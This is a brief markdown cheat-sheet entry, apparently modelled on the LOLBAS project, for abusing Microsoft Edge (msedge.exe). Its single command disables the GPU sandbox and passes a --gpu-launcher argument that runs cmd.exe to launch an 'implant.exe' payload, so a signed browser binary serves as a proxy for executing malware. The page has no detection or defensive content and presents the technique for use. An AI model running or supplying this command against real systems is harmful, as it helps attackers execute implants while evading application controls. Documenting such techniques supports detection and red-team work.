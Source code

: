 # MSedge

```
C:\> msedge.exe --disable-gpu-sandbox --gpu-launcher="C:\Windows\system32\cmd.exe /c C:\path\to\implant.exe &&"
```

---
## References

- [LOLBAS: MSedge](https://lolbas-project.github.io/lolbas/Binaries/Msedge/)

- [LOLBAS: MSedge Proxy](https://lolbas-project.github.io/lolbas/Binaries/msedge_proxy/)

- [LOLBAS: MSedgeWebView2](https://lolbas-project.github.io/lolbas/Binaries/msedgewebview2/)